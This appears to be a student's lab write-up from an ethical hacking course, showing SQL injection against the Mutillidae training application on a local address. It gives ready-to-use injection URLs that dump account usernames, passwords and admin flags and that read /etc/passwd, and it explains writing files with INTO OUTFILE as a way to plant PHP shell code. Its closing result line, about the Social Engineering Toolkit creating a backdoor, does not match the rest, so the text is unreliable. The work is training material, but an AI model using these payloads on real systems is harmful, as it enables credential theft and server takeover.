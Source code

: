 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/71f9a71b-c94b-4607-835e-02b559467760)



## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/b6dbbace-97af-4002-90d6-51bc04ded768)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The Social Engineering Toolkit (SET) is used to create backdoor is  examined successfully
